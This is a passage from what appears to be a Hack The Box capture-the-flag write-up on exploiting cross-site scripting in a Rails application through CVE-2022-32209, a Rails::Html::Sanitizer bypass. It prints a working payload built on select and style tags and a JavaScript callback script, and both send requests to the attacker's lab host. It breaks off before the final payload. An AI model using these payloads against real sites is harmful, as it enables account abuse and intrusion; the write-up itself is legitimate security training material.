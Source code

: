 The overflow kind of worked, managed to remove the last portion about the created bit. I then went to try various different payloads including \<img> tags and stuff. DIdn't really work. I then suspected this has to do with some kind of CVE that was released recently (usual pattern of HTB, uses CVEs from 2022), and went hunting for Ruby + XSS related exploits that came out recently.

I eventually found CVE-2022-32209, which was a XSS exploit for Rails::Html::Sanitizer. &#x20;

{% embed url="https://groups.google.com/g/rubyonrails-security/c/ce9PhUANQ6s?pli=1" %}

Seems that the \<select> tag was being used maliciously. I then tried the same overflow trick with this payload:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/xss.pls'>
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

This worked! I was able to get a callback as well:

<figure><img src="../../../.gitbook/assets/image (1) (3) (2).png" alt=""><figcaption></figcaption></figure>

Now, we just need to find a way to exploit this XSS.

### XSS for /administrator

Understanding that we now have XSS, I was thinking of using CSRF in order to retrieve more information about the /administration page. The reason CSRF is used is because **CSRF tokens do not protect against XSS.** We had a simple rails cookie that was HttpOnly, so XSS needs to do something else.

Since we can basically execute basic web requests using our username, we need to think of how to redirect the user somewhere. We can abuse the **eval** function to inject malicious JS code.&#x20;

First, I made a simple script that would callback to our machine.

```javascript
var xmlHttp = new XMLHttpRequest();
xmlHttp.open("GET", "http://10.10.14.29/stringcallback", false);
xmlHttp.send(null);
```

Then I encoded it using Base64, and wanted to see if I was able to get the callback I wanted using event attributes. The end username was this:
